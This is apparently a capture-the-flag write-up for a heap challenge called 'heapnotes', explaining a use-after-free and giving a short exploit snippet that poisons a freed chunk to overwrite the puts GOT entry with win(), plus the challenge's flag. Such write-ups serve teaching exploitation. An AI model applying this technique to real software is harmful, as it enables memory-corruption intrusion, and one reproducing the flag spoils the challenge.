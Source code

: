 # heapnotes
![challenge](challenge.png)
### Challenge:
##### dont know heap exploitation? read [this](https://ir0nstone.gitbook.io/notes/types/heap).

##### Files: [Dockerfile](Dockerifle), [libc-2.31.so](libc-2.31.so), [heapnotes](heapnotes)
##### Links: ```nc chal.nbctf.com 30172```

### Solution:

This was my first heap challenge ever so it's probably not the cleanest solution.

The challenge is a standard create, read, update, delete notes with a win() function, with no pie/no full relro, so my first plan was to get an arbitrary write and overwrite a got with win.

One of the many vulnerabilties in the program is a Use After Free, if we create a note we can still modify it even after deleting it, this gives us an opportunity to modify a freed chunk, giving us an arbitrary write.

```py
puts = p64(elf.got["puts"])
win = p64(elf.sym["win"])

create("yes0")
create("yes1")
create("yes2")
free(0)
free(1)
free(2)

update(1, puts)

create("yes")
create("yes")
create(win)
```

Here we create 3 notes then free them, we modify the 2nd chunk with with the address we want to write to, then malloc 2 junk values, finally the last malloc will return us our forged chunk, overwriting the put got with the win address. 

Next time puts is called we'll get a shell.

Solve script: [solve.py](solve.py)

Flag: ```nbctf{ur_w3lc0m3_qu454r_5abf2e}```
